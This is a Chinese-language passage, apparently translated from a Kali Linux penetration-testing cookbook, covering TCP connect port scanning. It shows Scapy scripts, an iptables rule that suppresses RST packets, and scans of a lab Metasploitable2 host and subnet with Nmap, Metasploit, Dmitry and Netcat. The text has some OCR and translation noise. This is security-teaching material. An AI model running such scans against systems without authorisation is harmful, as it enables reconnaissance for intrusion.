使用 `Scapy` 运行完整的连接扫描可能会困难，因为系统内核感知你在 `Scapy` 中对数据包的操作，并尝试阻止你与远程系统建立完整的三次握手。你可以通过发送 SYN 请求并使用 `Wireshark` 或 `tcpdump` 嗅探相关流量来观察这一活动。当你收到来自远程系统的 SYN-ACK 响应时，Linux 内核将其解释为未请求的响应，因为它并不知道你在 `Scapy` 中发出的请求，系统会自动响应 TCP RST 数据包，从而中断握手过程。考虑以下示例：

```
#!/usr/bin/python

import logging

logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

from scapy.all import *

response = sr1(IP(dst="172.16.36.135")/TCP(dport=80,flags='S'))

reply = sr1(IP(dst="172.16.36.135")/TCP(dport=80,flags='A',ack=(response[TCP].seq + 1)))
```

该 Python 脚本可以作为概念验证，用于演示系统破坏三次握手的问题。该脚本假设你正将其指向一个具有开放端口的活动系统，因此假设会收到响应初始 SYN 请求的 SYN+ACK 复。尽管发送了最终的 ACK 响应以以完成握手，但 RST 数据包阻止了连接的建立。

我们可以通过查看发送和接收的数据包来进一步演示这一点：

```python
#!/usr/bin/python

import logging

logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

from scapy.all import *

SYN = IP(dst="172.16.36.135")/TCP(dport=80,flags='S')

print "-- SENT --"

SYN.display()

print "\n\n-- RECEIVED --"

response = sr1(SYN,timeout=1,verbose=0)

response.display()

if int(response[TCP].flags) == 18:
    print "\n\n-- SENT --"
    ACK = IP(dst="172.16.36.135")/TCP(dport=80,flags='A',ack=(response[TCP].seq + 1))
    response2 = sr1(ACK,timeout=1,verbose=0)
    ACK.display()
    print "\n\n-- RECEIVED --"
    response2.display()
else:
    print "SYN-ACK not returned"
```

在随后的 Python 脚本中，每个发送的数据包在传输前显示，每个接收的数据包在到达时显示。通过检查每个数据包中激活的 TCP 标志，可以明显看到三次握手失败。

考虑脚本生成的输出：

```
root@KaliLinux:~# ./tcp_connect.py
-- SENT --
###[ IP ]###
version = 4
ihl = None
tos = 0x0
len = None
id = 1
flags =
frag = 0
ttl = 64
proto = tcp
chksum = None
src = 172.16.36.180
dst = 172.16.36.135
\options \
###[ TCP ]###
sport = ftp_data
dport = http
seq = 0
ack = 0
dataofs = None
reserved = 0
flags = S
window = 8192
chksum = None
urgptr = 0
options = {}
-- RECEIVED --
###[ IP ]###
version = 4L
ihl = 5L
tos = 0x0
len = 44
id = 0
flags = DF
frag = 0L
ttl = 64
proto = tcp
chksum = 0x9970
src = 172.16.36.135
dst = 172.16.36.180
\options \
###[ TCP ]###
sport = http
dport = ftp_data
seq = 3013979073L
ack = 1
dataofs = 6L
reserved = 0L
flags = SA
window = 5840
chksum = 0x801e
urgptr = 0
options = [('MSS', 1460)]
###[ Padding ]###
load = '\x00\x00'
-- SENT --
###[ IP ]###
version = 4
ihl = None
tos = 0x0
len = None
id = 1
flags =
frag = 0
ttl = 64
proto = tcp
chksum = None
src = 172.16.36.180
dst = 172.16.36.135
\options \
###[ TCP ]###
sport = ftp_data
dport = http
seq = 0
ack = 3013979074L
dataofs = None
reserved = 0
flags = A
window = 8192
chksum = None
urgptr = 0
options = {}
-- RECEIVED --
###[ IP ]###
version = 4L
ihl = 5L
tos = 0x0
len = 44
id = 0
flags = DF
frag = 0L
ttl = 64
proto = tcp
chksum = 0x9970
src = 172.16.36.135
dst = 172.16.36.180
\options \
###[ TCP ]###
sport = http
dport = ftp_data
seq = 3013979073L
ack = 1
dataofs = 6L
reserved = 0L
flags = SA
window = 5840
chksum = 0x801e (根据原文为了简进行了截断)
...
```

在脚本的输出中，可以看到四个数据包。正是这最后一个数据包表明在建立连接时遇到了问题。使用 `Scapy` 执行完整的三次握手是可能的，但这需要对系统的本地 IP 表进行一些修改。具体来说，只有当你抑制发送到尝试连接的远程系统的 RST 数据包时，才能完成握手。通过使用 IP 表建立过滤规则，可以丢弃 RST 数据包，从而在没有系统干扰的情况下完成三次握手（此配置不建议用于持续功能使用）。为了演示完整三次握手的成功完成，我们使用 `Netcat` 建立一个监听服务，然后尝试使用 `Scapy` 连接到开放端口：

```
admin@ubuntu:~$ nc -lvp 4444
listening on [any] 4444 ...
```

在提供的示例中，在 TCP 端口 4444 上开启了监听服务。我们可以修改之前讨论过的脚本，尝试连接到端口 `4444` 上的 Netcat TCP 服务，如下：

```python
#!/usr/bin/python

import logging

logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

from scapy.all import *

response = sr1(IP(dst="172.16.36.135")/TCP(dport=4444,flags='S'))

reply = sr1(IP(dst="172.16.36.135")/TCP(dport=4444,flags='A',ack=(response[TCP].seq + 1)))
```


在此脚本中，我们向监听端口发送了一个 SYN 请求，然后针对预期的 SYN+ACK 回复发送了 ACK 回复。为了验证连接尝试仍然被系统生成的 RST 数据包中断，应在运行 Wireshark 时执行此脚本，以捕获请求序列。我们在 Wireshark 中应用了过滤器来隔离连接尝试序列。使用的过滤器为 `tcp && (ip.src == 172.16.36.135 || ip.dst == 172.16.36.135)`。该过滤器用于仅显示发往或来自被扫描系统的 TCP 流量。如下截图所示：

现在我们已经确定了精确的问题，可以建立一个过滤器来抑制这种系统生成的 RST 响应。可以通过以下方式修改本地 IP 表来建立此过滤器：

以如下方式修改本地 IP 表将通过阻塞所有出站 RST 响应，损害系统处理与目标系统 TCP/IP 事务的方式。确保在完成此操作后删除创建的 `iptables` 规则，或者之后使用以下命令刷新 `iptables`：

```bash
iptables --flush
root@KaliLinux:~# iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 172.16.36.135 -j DROP
root@KaliLinux:~# iptables --list
```


```Chain INPUT (policy ACCEPT)
target prot opt source destination
Chain FORWARD (policy ACCEPT)
target prot opt source destination
Chain OUTPUT (policy ACCEPT)
target prot opt source destination
DROP tcp -- anywhere 172.16.36.135 tcp
flags:RST/RST
```

176


第 3 章

在提供的示例中，修改了本地 IP 表，以抑制所有发往扫描主机目标地址的 TCP RST 数据包。随后可以使用 `list` 选项查看 IP 表条目并验证配置已发生更改。要进行另一次连接尝试，我们需要确保 `Netcat` 仍在目标机的 `4444` 端口监听，如下：

```bash
admin@ubuntu:~$ nc -lvp 4444
listening on [any] 4444 ...
```

应再次运行之前引入的 Python 脚本，并让 Wireshark 在后台捕获流量。使用之前讨论的显示过滤器，我们可以轻松地关注所需的流量。注意，三次握手的所有步骤现在已完成，且没有受到系统生成的 RST 数据包中断，如下截图所示：

此外，如果我们查看运行在目标系统上的 `Netcat` 服务，会注意到连接已经建立。这是确认成功建立连接的进一步证据。如下输出所示：

```bash
admin@ubuntu:~$ nc -lvp 4444
listening on [any] 4444 ...
172.16.36.132: inverse host lookup failed: No address associated with name
connect to [172.16.36.135] from (UNKNOWN) [172.16.36.132]
```

4209
虽然这是理解 TCP 连接的一个非常有用的练习，但不要遗留 IP 表条目。RST 数据包是通信中的重要组成部分，完全抑制这些响应会严重损害正常功能。可以使用以下命令刷新我们的 `iptables` 规则并验证刷新是否成功：

```bash
root@KaliLinux:~# iptables --flush
root@KaliLinux:~# iptables --list
Chain INPUT (policy ACCEPT)
target prot opt source destination
Chain FORWARD (policy ACCEPT)
target prot opt source destination
Chain OUTPUT (policy ACCEPT)
target prot opt source destination
```

177 端口扫描
如提供的示例所示，应使用 `flush` 选项来清除创建的 IP 表条目。我们可以再次使用 `list` 选项验证 IP 表条目已删除。执行 TCP 连接扫描的工具通过执行完整的三次握手，与远程系统上的所有扫描端口建立连接来工作。端口的状态根据是否建立了连接来确定。如果无法建立连接，则该端口被确定为关闭状态。TCP 连接扫描通过与远程主机上的每个扫描端口建立完整的 TCP 连接完成的。本特定操作演示了我们如何使用 `Nmap` 执行 TCP 扫描。

准备工作
要使用 `Nmap` 执行全连接扫描，你需要一个运行着基于 TCP 服务的远程系统。在提供的示例中，使用了一个 `Metasplo2` 实例来执行此任务。有关如何设置 `Metasplo2` 的更多信息，请参阅第 1 章中的“安装 Metasplo2”操作。

如何操作……
Nmap 有一个选项可以简化并流化执行 TCP 连接扫描的过程。要使用 `Nmap` 执行 TCP 连接扫描，应使用 `-sT` 选项配合被扫描主机的 IP 地址，如下：

```bash
root@KaliLinux:~# nmap -sT 172.16.36.135 -p 80
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 22:03 EST
Nmap scan report for 172.16.36.135
Host is up (0.0072s latency).
PORT STATE SERVICE
80/tcp open http
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

在提供的示例中，对指定 IP 地址的 TCP 端口 `80` 执行了 TCP 连接扫描。与使用 `Scapy` 使用的技术类似，`Nmap` 监听响应，并通过分析在任何接收响应中激活的 TCP 标志来识别开放端口。我们还可以通过传递逗号分隔的端口号列表使用 `Nmap` 对多个指定端口进行扫描，如下：

```bash
root@KaliLinux:~# nmap -sT 172.16.36.135 -p 21,80,443
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 22:03 EST
Nmap scan report for 172.16.36.135
Host is up (0.0012s latency).
PORT STATE SERVICE
21/tcp open ftp
80/tcp open http
443/tcp closed
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

在提供的示例中，对目标 IP 地址的端口 `21`、`80` 和 `443` 执行了 TCP 连接扫描。我们还可以通过指示要扫描的第一个和最后一个端口来使用 `Nmap` 扫描一系列主机，如下：

```bash
root@KaliLinux:~# nmap -sT 172.16.36.135 -p 20-25
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 22:04 EST
Nmap scan report for 172.16.36.135
Host is up (0.0019s latency).
PORT STATE SERVICE
20/tcp closed ftp-data
21/tcp open ftp
22/tcp open ssh
23/tcp open telnet
24/tcp closed priv-mail
25/tcp open smtp
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

在提供的示例中，对 TCP 端口 `20` 到 `25` 执行了 TCP 连接扫描。除了提供指定扫描端口的能力外，`Nmap` 还有一个预配置的 1000 个常用端口列表。我们可以通过运行 `Nmap` 而不提供任何端口规格来扫描这些端口：

```bash
root@KaliLinux:~# nmap -sT 172.16.36.135
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 22:13 EST
Nmap scan report for 172.16.36.135
Host is up (0.0025s latency).
Not shown: 977 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
23/tcp open telnet
25/tcp open smtp
53/tcp open domain
80/tcp open http
111/tcp open rpcbind
139/tcp open netbios-ssn
445/tcp open microsoft-ds
512/tcp open exec
513/tcp open login
```


`514/tcp open shell`

`1099/tcp open rmiregistry`

`1524/tcp open ingreslock`

`2049/tcp open nfs`

`2121/tcp open ccproxy-ftp`

`3306/tcp open mysql`

`5432/tcp open postgresql`

180

# 第 3 章

`5900/tcp open vnc`

`6000/tcp open X11`

`6667/tcp open irc`

`8009/tcp open ajp13`

`8180/tcp open unknown`

`MAC Address: 00:0C:29:3D:84:32 (VMware)`

`Nmap done: 1 IP address (1 host up) scanned in 13.13 seconds`

在提供的示例中，扫描了 `Nmap` 定义的 1,000 个常用端口，以识别 Metasploitable2 系统上的大量开放端口。虽然这种技术在识别大多数服务时非常有效，但它可能无法识别晦涩的服务或不常见的端口关联。为了扫描所有可能的 TCP 端口，必须扫描所有可能的端口地址值。TCP 头部中定义源端口和目的端口地址的部分长度均为 16 位。此外，每个位可以保留 1 或 0 的值。因此，有 `2¹⁶` 或 65,536 个可能的 TCP 端口地址。为了扫描所有可能的总地址空间，需要提供 0 到 65535 的端口范围，如下：

```
root@KaliLinux:~# nmap -sT 172.16.36.135 -p 0-65535
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 22:14 EST
Nmap scan report for 172.16.36.135
Host is up (0.00076s latency).
Not shown: 65506 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
23/tcp open telnet
25/tcp open smtp
53/tcp open domain
80/tcp open http
111/tcp open rpcbind
139/tcp open netbios-ssn
445/tcp open microsoft-ds
512/tcp open exec
513/tcp open login
514/tcp open shell
1099/tcp open rmiregistry
```

181

# 端口扫描

`1524/tcp open ingreslock`

`2049/tcp open nfs`

`2121/tcp open ccproxy-ftp`

`3306/tcp open mysql`

`3632/tcp open distccd`

`5432/tcp open postgresql`

`5900/tcp open vnc`

`6000/tcp open X11`

`6667/tcp open irc`

`6697/tcp open unknown`

`8009/tcp open ajp13`

`8180/tcp open unknown`

`8787/tcp open unknown`

`34789/tcp open unknown`

`50333/tcp open unknown`

`56375/tcp open unknown`

`57385/tcp open unknown`

`MAC Address: 00:0C:29:3D:84:32 (VMware)`

`Nmap done: 1 IP address (1 host up) scanned in 17.05 seconds`

在提供的示例中，Metasploitable2 系统上扫描了所有可能的 65,536 个 TCP 地址。请注意，本次扫描识别出的服务比标准的 `Nmap` 1,000 端口扫描要多。这证明了在尝试识别目标上所有可能的攻击面时，全扫描始终是最佳实践。`Nmap` 还可以使用破折号符号对一系列连续主机上的 TCP 端口进行扫描：

```
root@KaliLinux:~# nmap -sT 172.16.36.0-255 -p 80
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 22:16 EST
Nmap scan report for 172.16.36.1
Host is up (0.00026s latency).
PORT STATE SERVICE
80/tcp closed http
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 172.16.36.2
Host is up (0.00056s latency).
PORT STATE SERVICE
80/tcp closed http
MAC Address: 00:50:56:FF:2A:8E (VMware)
Nmap scan report for 172.16.36.132
Host is up (0.00042s latency).
PORT STATE SERVICE
80/tcp closed http
MAC Address: 00:0C:29:65:D2 (VMware)
Nmap scan report for 172.16.36.135
Host is up (0.00061s latency).
PORT STATE SERVICE
80/tcp open http
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap scan report for 172.16.36.180
Host is up (0.0021s latency).
PORT STATE SERVICE
80/tcp open http
Nmap done: 256 IP addresses (5 hosts up) scanned in 42.55
```

在提供的示例中，对所有主机执行了端口 80 的扫描。虽然扫描是针对单个端口的，但 `Nmap` 也可以根据列表扫描多个端口，如下：

```
root@KaliLinux:~# nmap -sT -iL iplist.txt -p 80
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 22:14 EST
Nmap scan report for 172.16.36.1
Host is up (0.00076s latency).
PORT STATE SERVICE
80/tcp closed http
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 172.16.36.2
Host is up (0.00056s latency).
PORT STATE SERVICE
80/tcp closed http
MAC Address: 00:50:56:FF:2A:8E (VMware)
Nmap scan report for 172.16.36.132
Host is up (0.00042s latency).
PORT STATE SERVICE
80/tcp closed http
MAC Address: 00:0C:29:65:D2 (VMware)
Nmap scan report for 172.16.36.135
Host is up (0.00061s latency).
PORT STATE SERVICE
80/tcp open http
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap scan report for 172.16.36.180
Host is up (0.0021s latency).
PORT STATE SERVICE
80/tcp open http
Nmap done: 256 IP addresses (5 hosts up) scanned in 42.55
```

TCP 连接扫描通过执行三次握手来工作。如果建立了连接，则端口是开放的。如果没有，则端口是关闭的。除了其他工具外，`Metasploit` 有一个辅助模块可以扫描端口。使用 Metasploit 进行扫描可以减少所需的工具总数。

184

# 第 3 章：准备工作

要使用 Metasploit 执行全扫描，你需要一个运行着服务的远程系统。在提供的示例中，使用了 Metasploitable 实例。有关如何设置 Metasploitable 的更多信息，请参阅第 1 章。

`Metasploit` 有一个辅助模块可以扫描指定的 TCP 端口。要在 Kali 中打开 Metasploit，请在终端会话中使用 `msfconsole` 命令，如下：

```
root@KaliLinux:~# msfconsole
```


### 模块选项 (auxiliary/scanner/portscan/tcp)

| 名称 | 当前设置 | 是否 | 描述 |
| :--- | :--- | :--- | :--- |
| CONCURRENCY | 10 | yes | 每个主机检查的并发端口数 |
| PORTS | 1-10000 | yes | 要扫描的端口（例如 22-25,80,110-900） |
| RHOSTS | | yes | 目标地址范围或 CIDR 标识符 |
| THREADS | 1 | yes | 并发线程数 |
| TIMEOUT | 1000 | yes | socket 连接超时时间（单位：毫秒） |

在 Metasploit 中调用 TCP 连接扫描模块时，请使用 `use` 命令并带有辅助模块的相对路径。一旦选择了该模块，可以使用 `show options` 命令来识别和/或修改扫描配置。该命令将显示四个列标题，包括 Name（名称）、Current Setting（当前设置）、Required（是否）和 Description（描述）。`Name` 列标识每个可配置变量的名称。`Current Setting` 列列出给定变量的现有配置。`Required` 列标识给定变量是否需要值。此外，`Description` 列描述了每个变量的功能。我们可以使用 `set` 命令并提供新值作为参数来更改任何变量的值，如下：

```bash
msf auxiliary(tcp) > set RHOSTS 172.16.36.135
RHOSTS => 172.16.36.135
msf auxiliary(tcp) > set PORTS 80
PORTS => 80
msf auxiliary(tcp) > show options
```

模块选项 (auxiliary/scanner/portscan/tcp):

| 名称 | 当前设置 | 是否 | 描述 |
| :--- | :--- | :--- | :--- |
| CONCURRENCY | 10 | yes | 每个主机检查的并发端口数 |
| PORTS | 80 | yes | 要扫描的端口（例如 22-25,80,110-900） |
| RHOSTS | 172.16.36.135 | yes | 目标地址范围或 CIDR 标识符 |
| THREADS | 1 | yes | 并发线程数 |
| TIMEOUT | 1000 | yes | socket 连接超时时间（单位：毫秒） |

```bash
msf auxiliary(tcp) > run
[*] 172.16.36.135:80 - TCP OPEN
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

在提供的示例中，`RHOSTS` 值被更改为我们想要扫描的远程系统的 IP 地址。`PORTS` 值设置为 TCP 端口 80 (HTTP)。在更新了必要的变量后，可以使用 `show options` 命令再次验证配置。一旦验证了所需的配置，即可启动扫描。Metasploit 中使用 `run` 命令来执行选定的辅助模块。在提供的示例中，`run` 命令对指定 IP 地址的 80 端口执行了 TCP 连接扫描。通过提供由破折号分隔的第一个和最后一个值，也可以对连续的 TCP 端口执行此 TCP 连接扫描：

```bash
msf auxiliary(tcp) > set PORTS 0-100
PORTS => 0-100
msf auxiliary(tcp) > set THREADS 20
THREADS => 20
msf auxiliary(tcp) > show options
```

模块选项 (auxiliary/scanner/portscan/tcp):

| 名称 | 当前设置 | 是否 | 描述 |
| :--- | :--- | :--- | :--- |
| CONCURRENCY | 10 | yes | 每个主机检查的并发端口数 |
| PORTS | 0-100 | yes | 要扫描的端口（例如 22-25,80,110-900） |
| RHOSTS | 172.16.36.135 | yes | 目标地址范围或 CIDR 标识符 |
| THREADS | 20 | yes | 并发线程数 |
| TIMEOUT | 1000 | yes | socket 连接超时时间（单位：毫秒） |

```bash
msf auxiliary(tcp) > run
[*] 172.16.36.135:25 - TCP OPEN
[*] 172.16.36.135:23 - TCP OPEN
[*] 172.16.36.135:22 - TCP OPEN
[*] 172.16.36.135:21 - TCP OPEN
[*] 172.16.36.135:53 - TCP OPEN
[*] 172.16.36.135:80 - TCP OPEN
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution
```

在提供的示例中，设置了扫描前 100 个 TCP 端口。此外，线程数被更改为 20。`THREADS` 值定义了后台执行的并发任务数。确定一个良好的线程值将显著提高速度而不会过度消耗系统资源。对于大多数系统，20 个线程是一个快速且安全的并发数。虽然此扫描识别了目标系统上的服务，但无法确定是所有服务。TCP 头部定义的源和目的端口长度均为 16 位。因此，有 $2^{16}$ 或 65536 个可能的端口地址。为了扫描所有可能的地址空间，需要提供 0 到 65535 的端口范围，如下：

```bash
msf auxiliary(tcp) > set PORTS 0-65535
PORTS => 0-65535
msf auxiliary(tcp) > show options
```

模块选项 (auxiliary/scanner/portscan/tcp):

| 名称 | 当前设置 | 是否 | 描述 |
| :--- | :--- | :--- | :--- |
| CONCURRENCY | 10 | yes | 每个主机检查的并发端口数 |
| PORTS | 0-65535 | yes | 要扫描的端口（例如 22-25,80,110-900） |
| RHOSTS | 172.16.36.135 | yes | 目标地址范围或 CIDR 标识符 |
| THREADS | 20 | yes | 并发线程数 |
| TIMEOUT | 1000 | yes | socket 连接超时时间（单位：毫秒） |

```bash
msf auxiliary(tcp) > run
[*] 172.16.36.135:25 - TCP OPEN
[*] 172.16.36.135:23 - TCP OPEN
[*] 172.16.36.135:22 - TCP OPEN
[*] 172.16.36.135:21 - TCP OPEN
[*] 172.16.36.135:53 - TCP OPEN
[*] 172.16.36.135:80 - TCP OPEN
[*] 172.16.36.135:111 - TCP OPEN
[*] 172.16.36.135:139 - TCP OPEN
[*] 172.16.36.135:445 - TCP OPEN
[*] 172.16.36.135:514 - TCP OPEN
[*] 172.16.36.135:513 - TCP OPEN
[*] 172.16.36.135:512 - TCP OPEN
[*] 172.16.36.135:1099 - TCP OPEN
[*] 172.16.36.135:1524 - TCP OPEN
[*] 172.16.36.135:2049 - TCP OPEN
[*] 172.16.36.135:2121 - TCP OPEN
[*] 172.16.36.135:3306 - TCP OPEN
[*] 172.16.36.135:3632 - TCP OPEN
[*] 172.16.36.135:5432 - TCP OPEN
[*] 172.16.36.135:5900 - TCP OPEN
[*] 172.16.36.135:6000 - TCP OPEN
[*] 172.16.36.135:6667 - TCP OPEN
[*] 172.16.36.135:6697 - TCP OPEN
[*] 172.16.36.135:8009 - TCP OPEN
[*] 172.16.36.135:8180 - TCP OPEN
[*] 172.16.36.135:8787 - TCP OPEN
[*] 172.16.36.135:34789 - TCP OPEN
[*] 172.16.36.135:50333 - TCP OPEN
[*] 172.16.36.135:56375 - TCP OPEN
[*] 172.16.36.135:57385 - TCP OPEN
```

在提供的示例中，远程系统的所有开放端口都是通过扫描所有可能的端口地址识别的。我们也可以修改扫描配置，使用破折号表示法扫描一系列连续地址：

```bash
msf auxiliary(tcp) > set RHOSTS 172.16.36.0-255
RHOSTS => 172.16.36.0-255
msf auxiliary(tcp) > set PORTS 22,80,443
PORTS => 22,80,443
msf auxiliary(tcp) > show options
```


[*] `172.16.36.135:22 - TCP OPEN`
[*] `172.16.36.135:80 - TCP OPEN`
[*] `172.16.36.132:22 - TCP OPEN`
[*] Scanned 128 of 256 hosts (050% complete)
[*] Scanned 161 of 256 hosts (062% complete)
[*] `172.16.36.180:22 - TCP OPEN`
[*] `172.16.36.180:80 - TCP OPEN`
[*] Scanned 180 of 256 hosts (070% complete)
[*] Scanned 206 of 256 hosts (080% complete)
[*] Scanned 232 of 256 hosts (090% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed

在提供的示例中，对 `RHOSTS` 变量指定的所有主机地址的端口 22、80 和 443 执行了 TCP 建立扫描。同样，`RHOSTS` 也可以用 CIDR 表示法来定义网络范围：

```bash
msf auxiliary(tcp) > set RHOSTS 172.16.36.0/24
RHOSTS => 172.16.36.0/24
msf auxiliary(tcp) > show options
```

模块选项（auxiliary/scanner/portscan/tcp）：

| Name | Current Setting | Required | Description |
| :--- | :--- | :--- | :--- |
| CONCURRENCY | 10 | yes | 每个主机检查的并发端口数 |
| PORTS | 22,80,443 | yes | 扫描的端口（例如 22-25,80,110-900） |
| RHOSTS | 172.16.36.0/24 | yes | 目标地址范围或 CIDR 标识符 |
| THREADS | 20 | yes | 并发线程数 |
| TIMEOUT | 1000 | yes | 套字连接超时时间（毫秒） |

```bash
msf auxiliary(tcp) > run
```

191

# 端口扫描

[*] Scanned 038 of 256 hosts (014% complete)
[*] Scanned 053 of 256 hosts (020% complete)
[*] Scanned 080 of 256 hosts (031% complete)
[*] Scanned 103 of 256 hosts (040% complete)
[*] `172.16.36.135:80 - TCP OPEN`
[*] `172.16.36.135:22 - TCP OPEN`
[*] `172.16.36.132:22 - TCP OPEN`
[*] Scanned 138 of 256 hosts (053% complete)
[*] Scanned 157 of 256 hosts (061% complete)
[*] `172.16.36.180:22 - TCP OPEN`
[*] `172.16.36.180:80 - TCP OPEN`
[*] Scanned 182 of 256 hosts (071% complete)
[*] Scanned 210 of 256 hosts (082% complete)
[*] Scanned 238 of 256 hosts (092% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed

### 工作原理……

Metasploit 执行 TCP 建立扫描的底层原理与之前与其他工具所讨论的原理是相同的。使用 Metasploit 执行此类扫描的优势在于，它可以减少用户需要熟悉的工具总数。

## 使用 Dmitry 进行连接扫描

另一个可以用于对远程系统执行 TCP 建立扫描的备备选工具是 Dmitry。与 Nmap 和 Metasploit 不同，Dmitry 是一个非常简单的工具，我们可以用它进行快速方便的扫描，而无需管理配置的开销。本特定示例演示了如何使用 Dmitry 执行 TCP 建立扫描。

### 准备工作

要使用 Dmitry 执行全连接扫描，你将一个通过 TCP 运行网络服务的远程系统。在提供的示例中，使用了 Metasploitable2 实例来执行此任务。有关如何设置 Metasploitable2 的更多信息，请参阅第 1 章“入门”。

192

第 3 章

### 如何操作……

Dmitry 是一个多功能工具，可对目标系统执行 TCP 扫描。它的功能相当有限，但它是一个可以快速有效使用的简单工具。要查看 Dmitry 可用的选项，我们在终端中不带带任何参数地执行以下程序：

```bash
root@KaliLinux:~# dmitry
```

Deepmagic 信息收集工具
“这里正在发生一些深奥魔法”
用法: dmitry [-winsepfb] [-t 0-9] [-o %host.txt] host

-o 将输出保存到 %host.txt 或由 -o 指定的文件
-i 对主机的 IP 地址进行 whois 查询
-w 对主机的域名进行 whois 查询
-n 获取主机的 Netcraft.com 信息
-s 搜索可能的子域名
-e 搜索可能的电子邮件地址
-p 对主机执行 TCP 端口扫描
-f 对主机执行 TCP 端口扫描，并显示报告过滤端口的输出
-b 读取从扫描端口接收到的 banner（标志标志）
-t 0-9 设置扫描 TCP 端口时以秒为单位的 TTL（默认 2）
*需要传递 -p 标记

如用法输出所示，可以使用 -p 选项执行 TCP 端口扫描。执行此操作，我们使用此选项配合要扫描系统的 IP 地址。Dmitry 有 150 个常用的预配置端口将进行扫描。在这些端口中，它将显示任何发现的开放端口。考虑以下示例：

```bash
root@KaliLinux:~# dmitry -p 172.16.36.135
```

Deepmagic 信息收集工具
“这里正在发生一些深奥魔法”
错误：无法为 172.16.36.135 定位主机名
继续使用有限模块
HostIP:172.16.36.135
HostName:

193

端口扫描
为 172.16.36.135 收集了 TCP 端口信息
---------------------------------
端口 状态
21/tcp open
22/tcp open
23/tcp open
25/tcp open
53/tcp open
80/tcp open
111/tcp open
139/tcp open
端口扫描完成：扫描了 150 个端口，141 个端口处于关闭状态

使用 Dmitry 进行 TCP 端口扫描没有太多的自定义空间，但它是评估单个主机上常用服务的快速且有效的方法。我们还可以使用 -o 选项将 Dmitry 扫描的结果输出到文本文件，并在执行目录中指定输出的文件名：

```bash
root@KaliLinux:~# dmitry -p 172.16.36.135 -o output
root@KaliLinux:~# ls
output.txt
root@KaliLinux:~# cat output.txt
```

错误：无法为 172.16.36.135 定位主机名
继续使用有限模块
HostIP:172.16.36.135
HostName:
为 172.16.36.135 收集了 TCP 端口信息
---------------------------------
端口 状态
21/tcp open
22/tcp open
23/tcp open
25/tcp open

194

第 3 章
53/tcp open
80/tcp open
111/tcp open
139/tcp open
端口扫描完成：扫描了 150 个端口，141 个端口处于关闭状态

### 工作原理……

Metasploit 执行 TCP 建立扫描的底层原理与之前与其他工具所讨论的原理是相同的。使用 Metasploit 执行此类扫描的优势在于，它可以减少用户需要熟悉的工具总数。

## 使用 Netcat 进行端口扫描

由于 Netcat 是一个套接字连接和管理工具，它可以很容易转换为 TCP 端口扫描工具。本特定示例演示了如何使用 Netcat 执行 TCP 建立扫描。

### 准备工作

Netcat 是一个极其实用的多功能网络工具，可用于多种用途。一个一个有效用法是执行端口扫描。要识别用法选项，应带 -h 选项调用 nc (Netcat)，如下：

```bash
root@KaliLinux:~# nc -h
```

[v1.10-40]
连接到某处: nc [-options] hostname port[s] [ports] ...
监听输入: nc -l -p port [-options] [hostname] [port]

选项:
-c 将 shell 命令作为 `-e`；使用 /bin/sh 执行 [危险!!]
-e 连接后执行文件名程序 [危险!!]
-b 允许广播


- `-g 网关源路由跳点[s]，最多 8 个`
- `-G 源路由指针数量: 4, 8, 12, ...`
- `-h 此杂项说明`
- `-i 发送行和扫描端口的延迟间隔（秒）
- `-k 在 socket 上设置 keepalive 选项`
- `-l 监听模式，用于入站连接`
- `-n 仅使用数字 IP 地址，不进行 DNS 解析
- `-o 流量的十六进制转储文件`
- `-p 本地端口号`
- `-r 随机本地和远程端口`
- `-q 在标准输入遇到 EOF 后退出，并等待若干秒（秒）
- `-s addr 本地源地址`
- `-T tos 设置服务类型 (Type Of Service)`
- `-t 回答 TELNET 协商`
- `-u UDP 模式`
- `-v 详细模式 [使用两次可更详细]`
- `-w 连接和最终网络读取的超时时间（秒）
- `-z 零 I/O 模式 [用于扫描]`
- `port numbers` 可以是单个或范围：`lo-hi [包含边界];`
- 端口名中的 `hyphens` 必须用反斜杠转义（例如 `'ftp\-data'`）。

如用法输出所示，`-z` 选项可以有效地用于扫描。要扫描目标系统的 TCP 80 端口，我们使用 `-n` 选项表示使用 IP 地址，`-v` 选项用于详细输出，以及 `-z` 选项进行扫描，如下：

```bash
root@KaliLinux:~# nc -nvz 172.16.36.135 80
(UNKNOWN) [172.16.36.135] 80 (http) open
root@KaliLinux:~# nc -nvz 172.16.36.135 443
(UNKNOWN) [172.16.36.135] 443 (https) : Connection refused
```

对开放端口执行扫描尝试将返回 IP 地址、端口地址和端口状态。对存活主机上的关闭端口执行相同的扫描将指示连接被拒绝。我们可以像下面的命令所示，在循环中实现此过程：

```bash
root@KaliLinux:~# for x in $(seq 20 30); do nc -nvz 172.16.36.135 $x;
done
(UNKNOWN) [172.16.36.135] 20 (ftp-data) : Connection refused
(UNKNOWN) [172.16.36.135] 21 (ftp) open
(UNKNOWN) [172.16.36.135] 22 (ssh) open
(UNKNOWN) [172.16.36.135] 23 (telnet) open
